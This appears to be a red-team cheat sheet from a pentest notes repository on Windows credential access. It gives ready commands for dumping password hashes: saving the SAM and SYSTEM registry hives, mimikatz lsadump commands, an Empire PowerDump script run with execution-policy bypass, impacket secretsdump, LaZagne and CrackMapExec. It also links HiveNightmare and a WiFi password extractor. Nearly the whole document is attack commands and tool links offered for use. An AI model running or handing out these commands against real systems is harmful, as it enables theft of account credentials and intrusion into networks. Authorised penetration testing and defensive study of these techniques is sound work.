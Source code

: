# Credential Access

The adversary is trying to steal account names and passwords.

### Dumping Hashes

List of loots to collect
- [ ] Manually

  ```
    reg save hklm\sam C:\Users\Public\sam
    reg save hklm\system C:\Users\Public\system
  ```
  Once you have retrieved the data from SAM, you can use SamDump2 tool to dump its hashes with the following command
  
  `samdump2 system sam`
  
- [ ] Mimikats
  - binaries https://github.com/ParrotSec/mimikatz
  - project https://github.com/gentilkiwi/mimikatz
  - mimikatz cheatsheet https://gist.github.com/insi2304/484a4e92941b437bad961fcacda82d49
  
  ```
  privilege::debug
  token::elevate
  lsadump::sam
  ```
  
- [ ] Pypykatz
  - Project https://github.com/skelsec/pypykatz
  - Demo https://www.youtube.com/watch?v=X4YCJYQ-zVg
 
- [ ] Nightmare Hive
  - Exploit allowing you to read any registry hives as non-admin.
  - https://github.com/GossiTheDog/HiveNightmare/tree/master/Release

- [ ] PwDump7
  - Only for Windows7
  - https://www.tarasco.org/security/pwdump_7/pwdump7.zip

- [ ] Powershell Script
  - https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-PowerDump.ps1
  - `powershell.exe -exec bypass -Command "& {Import-Module .\Invoke-PowerDump.ps1; Invoke-PowerDump}"`


- [ ] Impacket
  - `./secretsdump.py -sam /root/Desktop/sam -system /root/Desktop/system LOCAL`

- [ ] lazagne.exe
  - project https://github.com/AlessandroZ/LaZagne
  - binaries https://github.com/AlessandroZ/LaZagne/releases/
  - `lazagne.exe all`

- [ ] CrackMapExec 
  - `crackmapexec smb 192.168.1.105 -u 'AdministratorUsername' -p 'password1234' --sam`
  
  
### WiFi Credentials

   - [ ] Windows WiFi Password Extractor
     - https://github.com/hmaverickadams/Windows-WiFi-Extractor
     
### References
- https://www.hackingarticles.in/credential-dumping-sam/

